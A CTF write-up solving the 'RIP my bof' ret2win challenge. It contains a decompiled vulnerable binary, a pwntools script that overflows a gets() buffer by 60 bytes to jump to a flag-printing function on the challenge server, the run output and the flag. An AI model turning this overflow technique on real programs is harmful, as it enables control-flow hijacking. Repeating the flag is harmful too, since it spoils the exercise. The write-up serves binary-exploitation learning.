 # RIP my bof 

> Okay so we have a bof, can we get it to redirect IP (instruction pointer) to something else?
>
> If you get stuck liveoverflow covers you again!
>
> `nc thekidofarcrania.com 4902`

Let's look at decompilation of the server binary...

```c
08048586    int32_t win()

080485b0        return system(line: "/bin/cat /flag.txt")


080485b1    int32_t vuln()

080485ce        void buf
080485ce        memset(&buf, 0, 0x20)
080485e4        void var_1c
080485e4        memset(&var_1c, 0xff, 0x10)
080485f3        init_visualize(&buf)
08048602        visualize(&buf)
08048614        printf(format: "Input some text: ")
08048623        gets(&buf)
0804863f        return visualize(&buf)


08048640    int32_t main(int32_t argc, char** argv, char** envp)

08048647        void* const __return_addr_1 = __return_addr
0804864e        int32_t* var_10 = &argc
08048668        setbuf(fp: *stdout, buf: nullptr)
0804867e        setbuf(fp: *stdin, buf: nullptr)
08048686        vuln()
08048699        return 0

```

Classic Ret2win, we `gets()` is incredibly vulnerable, we overflow the stack and fly into win. We need an offset though, Binja has us covered!

![x](imgs/image.png)

Binja's stack view shows us the entry for `void buf` is at 0x3c which is 60 in decimal. This is the offsets needed to overflow. Final Solution below w/ comments.

```python
from pwn import * # Collection of tools to make ROP easier in CTFS

p = remote("thekidofarcrania.com", 4902) # Specifying our remote (which has our flag)

win = 0x8048586 # Address of Win found in Binary Ninja

payload = b"A"*60 # Using A times our offset we found above
payload += p64(win) # packs the address in little endian

p.recvuntil("Input some text") # waits until the text to input comes in
p.sendline(payload) # sends the payload we sent

p.interactive() # spawns an interactive shell
```

Running it we get...

```bash
 /bin/python3 /home/vipin/ctf/binex/random_challs/ripmybof.py
[+] Opening connection to thekidofarcrania.com on port 4902: Done
/home/vipin/ctf/binex/random_challs/ripmybof.py:10: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("Input some text")
[*] Switching to interactive mode
: 
Legend: buff MODIFIED padding MODIFIED
  notsecret MODIFIED secret MODIFIED
  return address MODIFIED
0xff910390 | 41 41 41 41 41 41 41 41 |
0xff910398 | 41 41 41 41 41 41 41 41 |
0xff9103a0 | 41 41 41 41 41 41 41 41 |
0xff9103a8 | 41 41 41 41 41 41 41 41 |
0xff9103b0 | 41 41 41 41 41 41 41 41 |
0xff9103b8 | 41 41 41 41 41 41 41 41 |
0xff9103c0 | 41 41 41 41 41 41 41 41 |
0xff9103c8 | 41 41 41 41 86 85 04 08 |
Return address: 0x08048586

CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
timeout: the monitored command dumped core
[*] Got EOF while reading in interactive
$ 
```

Flag: `CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}`

